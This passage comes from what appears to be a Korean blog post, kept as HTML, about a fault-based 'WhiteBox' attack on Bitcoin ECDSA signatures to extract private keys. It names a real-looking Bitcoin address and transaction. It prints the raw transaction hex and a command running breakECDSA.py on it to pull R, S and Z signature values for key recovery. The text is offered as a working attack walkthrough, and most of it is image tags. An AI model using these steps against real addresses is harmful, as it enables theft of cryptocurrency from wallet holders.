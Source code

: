 <figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-112-1024x452.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1177"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-114-1024x452.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1179"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>공격을 위한 RawTX 준비</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2></h2>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1A1DUHhe6ENKxj4Qebs5Xs63pfWwRQazsY" target="_blank" rel="noreferrer noopener">1A1DUHhe6ENKxj4Qebs5Xs63pfWwRQazsY</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/60d6685d9945ee4037ac6621136e98b53bc97cf71bf2b45f9b93086eebf4a499
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-12-1024x142.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1577"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-14-1024x281.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1581"/></figure>

